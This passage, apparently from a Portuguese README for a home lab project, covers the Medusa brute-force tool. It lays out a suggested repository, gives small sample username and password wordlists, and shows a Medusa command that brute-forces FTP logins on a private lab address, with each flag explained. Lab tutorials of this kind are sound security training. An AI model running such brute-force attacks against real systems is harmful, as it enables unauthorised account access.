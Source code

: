 ## Estrutura do repositório (sugestão)
```
/my-medusa-project
  /images
    ftp_result.png
    dvwa_result.png
    smb_result.png
  /wordlists
    users.txt
    passwords-small.txt
  README.md
  medusa_commands.txt
  medusa_logs/
    ftp.log
    dvwa.log
    smb.log
```

## Wordlists de exemplo
Coloque arquivos simples no repositório para testes iniciais (evite wordlists grandes em repositórios públicos):

`wordlists/users.txt`
```
admin
ftp
test
user
anonymous
```

`wordlists/passwords-small.txt`
```
123456
password
12345678
admin
1234
letmein
```

> Dica: comece com listas pequenas para validar o fluxo; só use listas maiores (ex.: `rockyou.txt`) se o laboratório suportar e você entender implicações éticas.

## Comandos Medusa — cenários práticos
> Antes de rodar, confira os módulos disponíveis: `medusa -d` e `medusa -M <module> -q` para ver opções do módulo.

### FTP (usuário conhecido)
```bash
medusa -h 192.168.56.102 -u ftp_username -P /home/kali/medusa-lab/wordlists/passwords-small.txt -M ftp -t 10 -f
```
Parâmetros principais:
- `-h` host
- `-u` usuário (use `-U arquivo` para múltiplos usuários)
- `-P` arquivo de senhas
- `-M` módulo (ftp)
- `-t` threads
- `-f` parar no primeiro login válido
